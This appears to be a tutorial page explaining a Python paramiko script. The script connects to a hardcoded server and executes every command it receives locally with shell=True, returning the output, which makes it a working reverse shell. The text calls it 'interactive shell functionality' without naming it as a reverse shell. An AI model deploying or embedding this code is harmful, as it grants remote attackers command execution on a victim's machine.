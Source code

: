 This Python script is an extension of the previous example and introduces an interactive shell functionality over an SSH connection. Let's break down the script:

```python
import subprocess
import paramiko

def ssh_command(ip, user, passwd, command):
    # Create an SSH client
    client = paramiko.SSHClient()

    # Automatically add the server's host key (this is insecure and should be avoided in production)
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        # Connect to the remote server
        client.connect(ip, username=user, password=passwd)

        # Open an SSH session
        ssh_session = client.get_transport().open_session()

        # Check if the session is active
        if ssh_session.active:
            # Send the initial command to the server
            ssh_session.send(command)

            # Print the banner (usually the welcome message)
            print(ssh_session.recv(1024).decode('utf-8'))

            # Main loop for interactive shell
            while True:
                # Receive the command from the SSH server
                command = ssh_session.recv(1024).decode()

                try:
                    # Execute the command using subprocess
                    cmd_output = subprocess.check_output(command, shell=True)
                    ssh_session.send(cmd_output)
                except Exception as e:
                    # Send the exception message back to the SSH server
                    ssh_session.send(str(e))

    except Exception as e:
        print(f"Error: {e}")

    finally:
        # Close the SSH connection
        client.close()

# Example usage
ssh_command('192.168.100.130', 'justin', 'lovesthepython', 'ClientConnected')
```

Explanation:

1. **Interactive Shell Functionality:**
   - This script extends the previous example by creating an interactive shell over the SSH connection.

2. **Sending and Receiving Commands:**
   - The initial command is sent to the server using `ssh_session.send(command)`.
   - The script then enters a main loop where it continuously receives commands from the SSH server using `ssh_session.recv(1024).decode()`.

3. **Executing Commands:**
   - Each received command is executed locally on the script's machine using `subprocess.check_output(command, shell=True)`.
   - The output of the command is sent back to the SSH server using `ssh_session.send(cmd_output)`.

4. **Exception Handling:**
   - If an exception occurs during the execution of a command, the exception message is sent back to the SSH server.

5. **Closing the SSH Connection:**
   - The `finally` block ensures that the SSH connection is closed even if an exception occurs.

6. **Example Usage:**
   - The script concludes with an example usage of the `ssh_command` function, connecting to the server with the specified IP, username, password, and initiating the command `'ClientConnected'`.

Note: As before, hardcoding passwords in the script is not recommended for security reasons. In a production environment, you might want to consider more secure authentication methods, such as key-based authentication. Additionally, this script lacks proper error handling and security measures, and it's important to be cautious when implementing interactive shell functionality over SSH.
